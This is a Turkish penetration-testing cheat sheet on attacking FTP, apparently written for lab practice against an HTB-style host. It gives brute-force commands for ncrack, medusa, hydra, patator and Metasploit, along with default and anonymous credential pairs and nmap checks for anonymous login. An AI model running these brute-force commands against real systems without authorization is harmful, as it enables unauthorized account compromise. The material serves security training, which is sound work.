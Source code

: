 ![https://i.ibb.co/WkNVSVC/image.png](https://i.ibb.co/WkNVSVC/image.png)

### Brute Force

```bash
# Ncrack
ncrack -U userlist.txt -P passlist.txt ftp://10.10.11.101:21 -v

# Medusa
medusa -h 10.10.11.101 -U userlist.txt -P passlist.txt -M ftp

# Hydra
hydra -L userlist.txt -P passlist.txt ftp://10.10.11.101:21 -F

# Patator
patator ftp_login host=10.10.11.101 user=FILE0 password=FILE1 0=userlist.txt 1=passlist.txt -x ignore:mesg='Login incorrect.'

# Metasploit
msf6 > use auxiliary/scanner/ftp/ftp_login
set USER_FULE /root/userlist.txt
set PASS_FILE /root/passlist.txt
set RHOSTS 10.10.11.101
run
```

![https://i.ibb.co/ZMnpWGs/image.png](https://i.ibb.co/ZMnpWGs/image.png)

### FTP Anonymous Login Tespiti

```bash
# Manual Test
anonymous : anonymous
anonymous :
ftp : ftp

# Nmap
nmap -sV -sC 10.10.11.101 -p 21
nmap -sV --script=ftp-anon 10.10.11.101 -p 21

# Metasploit
msf6 > use auxiliary/scanner/ftp/anonymous
set RHOSTS 10.10.11.101
set RPORT 21
run
```

![https://i.ibb.co/fvRdd8f/image.png](https://i.ibb.co/fvRdd8f/image.png)

## Yaygın Güvenlik Açıkları
